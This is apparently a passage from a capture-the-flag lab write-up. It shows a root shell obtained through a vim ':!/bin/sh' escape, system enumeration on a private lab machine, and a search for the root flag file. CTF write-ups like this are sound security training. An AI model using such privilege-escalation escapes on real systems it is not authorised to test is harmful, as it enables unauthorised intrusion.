 ```bash





























:!/bin/sh
whoami
root
hostname
friendly
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:a2:9f:c0 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.7/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 548sec preferred_lft 548sec
    inet6 fe80::a00:27ff:fea2:9fc0/64 scope link 
       valid_lft forever preferred_lft forever
ls /root
interfaces.sh
root.txt
cat root.txt
cat: root.txt: No such file or directory
cat /root/root.txt
Not yet! Find root.txt.

```
Well, the root flag was not in the root directory. Let's find it. 
```bash
find / -name root.txt 2>/dev/null
/var/log/apache2/root.txt
/root/root.txt

```